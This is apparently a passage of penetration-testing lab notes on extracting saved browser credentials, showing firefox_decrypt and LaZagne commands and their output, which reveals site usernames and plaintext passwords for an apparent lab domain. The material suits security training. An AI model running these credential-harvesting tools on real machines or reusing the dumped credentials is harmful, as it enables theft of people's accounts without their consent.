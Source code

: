 #### Decrypting Firefox Credentials
* The tool [Firefox Decrypt](https://github.com/unode/firefox_decrypt) is excellent for decrypting these credentials, and is updated regularly

```sh
python3.9 firefox_decrypt.py

Select the Mozilla profile you wish to decrypt
1 -> lfx3lvhb.default
2 -> 1bplpd86.default-release

2

Website:   https://testing.dev.inlanefreight.com
Username: 'test'
Password: 'test'

Website:   https://www.inlanefreight.com
Username: 'cry0l1t3'
Password: 'FzXUxJemKm6g2lGh'
```

#### Browsers - LaZagne

```sh
python3 laZagne.py browsers

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Firefox passwords -----------------

[+] Password found !!!
URL: https://testing.dev.inlanefreight.com
Login: test
Password: test

[+] Password found !!!
URL: https://www.inlanefreight.com
Login: cry0l1t3
Password: FzXUxJemKm6g2lGh


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 0.2310788631439209
```